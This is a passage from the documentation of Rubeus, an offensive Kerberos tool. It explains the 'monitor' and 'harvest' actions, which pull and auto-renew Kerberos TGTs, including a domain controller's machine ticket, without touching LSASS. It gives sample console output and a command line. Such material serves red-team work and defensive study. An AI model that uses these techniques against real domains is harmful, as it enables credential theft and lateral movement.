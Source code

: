       v1.5.0

    [*] Action: TGT Monitoring
    [*] Target user     : DC$
    [*] Monitoring every 10 seconds for new TGTs


    [*] 12/21/2019 11:10:16 PM UTC - Found new TGT:

      User                  :  DC$@THESHIRE.LOCAL
      StartTime             :  12/21/2019 2:44:31 PM
      EndTime               :  12/21/2019 3:44:31 PM
      RenewTill             :  12/28/2019 2:13:06 PM
      Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
      Base64EncodedTicket   :

        doIFFDCCBRCgAwIBBaEDAgEWoo...(snip)...

    [*] Ticket cache size: 1


**Note that this action needs to be run from an elevated context!**


### harvest

The **harvest** action takes [monitor](#monitor) one step further. It periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60), extracts any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. Every interval, any TGTs that will expire before the next interval are automatically renewed (up until their renewal limit). Every `/displayinterval:X` seconds (default of 1200) and the current cache of "usable"/valid TGT KRB-CRED .kirbis are output as base64 blobs.

This allows you to harvest usable TGTs from a system without opening up a read handle to LSASS, though elevated rights are needed to extract the tickets.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe harvest /interval:30

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v0.0.1a

    [*] Action: TGT Harvesting (w/ auto-renewal)

    [*] Monitoring every 30 minutes for 4624 logon events

    ...(snip)...
